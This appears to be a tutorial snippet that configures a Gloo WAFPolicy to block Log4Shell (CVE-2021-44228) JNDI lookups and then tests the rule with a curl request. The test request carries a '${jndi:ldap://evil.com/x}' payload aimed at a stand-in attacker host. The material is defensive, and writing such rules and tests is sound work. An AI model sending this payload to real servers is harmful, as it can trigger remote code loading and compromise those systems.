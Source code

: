 ```bash

kubectl apply -f - <<'EOF'
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: frontend
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

Requests that try to use those headers will be rejected.
```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" http://172.20.1.1
```

![](imgs/rate-limit-and-waf.png)
